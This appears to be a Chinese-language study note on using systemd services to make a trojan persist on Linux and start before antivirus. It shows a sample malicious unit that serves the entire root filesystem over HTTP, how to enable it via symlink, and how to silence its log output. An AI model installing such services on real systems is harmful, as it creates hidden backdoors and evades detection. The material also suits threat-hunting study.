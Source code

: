 ```yaml
---
tags:
  - 操作系统
  - Linux
  - 木马
  - Systemd
参考: https://pberba.github.io/security/2022/01/30/linux-threat-hunting-for-persistence-systemd-timers-cron/
---
```

背景：为了使得木马躲避杀毒软件，考虑在杀毒软件启动前启动木马程序，这需要将我们的木马与**服务**联系起来    

Systemd services是用来管理守护进程的，所以攻击者的一种思路就是利用 Systemd 安装自己的恶意服务，这样在重新启动机器后，他们的后门服务也将重新启动。

安装新服务的方法：在`/etc/systemd/system/`或`/lib/systemd/system/`中创建服务单元文件`*.service`。  

## 1.1 一个`rsyslog.service`的例子  

```toml
[Unit]
Description=System Logging Service
Requires=syslog.socket
Documentation=man:rsyslogd(8)
Documentation=https://www.rsyslog.com/doc/

[Service]
Type=notify
ExecStart=/usr/sbin/rsyslogd -n -iNONE
StandardOutput=null
Restart=on-failure

# Increase the default a bit in order to allow many simultaneous
# files to be monitored, we might need a lot of fds.
LimitNOFILE=16384

[Install]
WantedBy=multi-user.target
Alias=syslog.service
```

重点关注其中的两行：  

- `ExecStart`: 服务启动时执行的命令  
- `WantedBy`: 这里的值`multi-user.target`, 表示服务在（boot time）启动  

## 1.2 安装恶意服务  

### 1.2.1 可供选择的路径  

通过命令`systemd-analyze unit-paths`(--user)来枚举完整路径以及**顺序**  

- 注意，越靠前的顺序优先级越高，同名服务只看第一个

### 1.2.2 最简例子  

创建`/etc/systemd/system/bad.service`

```toml
[Unit]
Description=Example of bad service

[Service]
ExecStart=python3 -m http.server --directory /

[Install]
WantedBy=multi-user.target
```

创建这个文件后，使用命令`systemctl enable bad`来激活  

- 激活的时候，会自动在路径中查找我们的`bad.service`, 并为每个`WantedBy`里的目标创建一个链接(symlink)  

- 也可以手动创建：

```shell
  ln -s /etc/systemd/system/bad.service /etc/systemd/system/multi-user.target.wants/bad.service
```

### 1.2.3 隐藏某些输出  

默认情况下，会在*syslog* 有所输出，我们可以在之前创建的文件中`[Service]`中加入下面几行  

```
StandardOutput=null
StandardError=null
```

